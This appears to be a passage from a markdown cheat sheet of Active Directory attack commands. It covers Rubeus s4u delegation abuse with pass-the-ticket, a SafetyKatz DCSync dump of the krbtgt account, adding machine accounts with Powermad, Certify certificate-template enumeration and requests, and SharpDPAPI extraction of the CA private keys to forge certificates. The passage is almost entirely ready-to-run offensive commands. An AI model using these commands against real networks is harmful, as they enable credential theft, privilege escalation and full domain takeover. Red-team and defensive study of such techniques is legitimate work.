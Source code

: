 #### Abuse Rubeus:
```
Rubeus.exe hash /password:Password@123! /user:<USER> /domain:<DOMAIN>

Rubeus.exe s4u /user:<USER> /rc4:<NTLM HASH> /impersonateuser:administrator /msdsspn:ldap/<FQDN DC> /domain:<DOMAIN> /ptt

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## Computeraccount
- https://github.com/Kevin-Robertson/Powermad
- Low privilege if not added to the domain admins group

#### Add computeraccount to the domain
```
New-MachineAccount -Domain <DOMAIN> -MachineAccount <NAME OF MACHINE TO ADD> -DomainController <IP> -Verbose
```

### Runas computeraccount
```
runas /netonly /user:<DOMAIN>\<COMPUTERACCOUNTNAME> powershell
```

## Active Directory Certificate Services
#### Find certificated that permit client authentication
- Important to look at:
  - The validity period
  - Authorization is not required.
  - Who has enrollment rights.
```
.\Certify.exe find /clientauth
```

#### Request a certificate user
- Uses the current user
```
.\Certify.exe request /ca:<CA NAME> /template:<TEMPLATE NAME>
```

#### Request a certificate machine
```
.\Certify.exe request /ca:<CA NAME> /template:<TEMPLATE NAME> /machine
```

### Forged Certificates
#### Dump the private keys
- Execute on the CA server. You can generally tell this is the private CA key because the Issuer and Subject are both set to the distinguished name of the CA.
- https://github.com/GhostPack/SharpDPAPI
```
.\SharpDPAPI.exe certificates /machine
```
- Save cert + key in a cert.pem file
